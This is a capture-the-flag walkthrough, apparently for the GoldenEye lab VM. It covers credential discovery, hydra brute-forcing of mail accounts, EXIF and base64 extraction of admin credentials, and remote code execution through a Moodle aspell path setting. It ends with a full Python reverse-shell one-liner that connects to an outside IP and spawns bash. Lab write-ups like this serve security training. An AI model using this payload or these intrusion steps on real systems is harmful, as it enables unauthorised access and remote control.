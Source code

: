 ```
Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.
```

- `sudo nano /etc/hosts` and navigate to `http://severnaya-station.com/gnocertdir` where we can login with `xenia`

Checking around the site inside of xenias profile she has an undread message from `doak`

Using the same process as before with hydra we can get doaks email password `doak:goat`. He has one message in his inbox.

```
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```

Lokking into doaks profile and checking his files we find a secret message that points to `/dir007key/for-007.jpg`. Grab that file and use `exiftool` These are the admin creds

We can decode with `echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d` which gives us `admin:xWinter1995x!`

Login to user. So there is a vulnerability within aspell which we can use python to call for a reverse shell when a user uses the spellcheck feature ont he tinyMCE editor. Searching in the settings for `aspell` brings up the Path to aspell which we can edit with to send us a shell. `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.3.64",6676));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
